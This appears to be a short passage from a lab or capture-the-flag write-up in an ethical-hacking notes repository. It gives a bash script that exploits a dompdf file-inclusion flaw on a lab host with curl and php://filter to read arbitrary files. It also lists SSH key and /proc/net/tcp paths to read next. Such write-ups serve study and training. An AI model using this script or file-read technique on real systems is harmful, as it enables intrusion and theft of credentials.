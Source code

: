 ![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240331200827.png)
### Creating a script to automatize
`#!/bin/bash`

`#Colours`
`greenColour="\e[0;32m\033[1m"`
`endColour="\033[0m\e[0m"`
`redColour="\e[0;31m\033[1m"`
`blueColour="\e[0;34m\033[1m"`
`yellowColour="\e[0;33m\033[1m"`
`purpleColour="\e[0;35m\033[1m"`
`turquoiseColour="\e[0;36m\033[1m"`
`grayColour="\e[0;37m\033[1m"`

`function ctrl_c(){`
  `echo -e "\n\n${redColour}[!]Quitting...${endColour}\n"`
  `exit 1`
`}`

`#Ctrl+C`
`trap ctrl_c INT`

`while true; do`
  `echo -ne "${yellowColour}[${endColour}${blueColour}~${endColour}${yellowColour}]${endColour}${redColour} >${endColour} "&& read -r command`
  `echo`
  `curl -s  -X GET "http://10.10.10.67/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=$command" | grep -oP '\(.*?\)' | tail -n 1 | tr -d '()' | base64 -d`
  `echo`
`done`

### Enumerating ports and possible rsa keys
/home/user/.ssh/id_rsa.pub *checking for keys*
/proc/net/tcp *see internal ports not open to us, it brings a hexadecimal code*
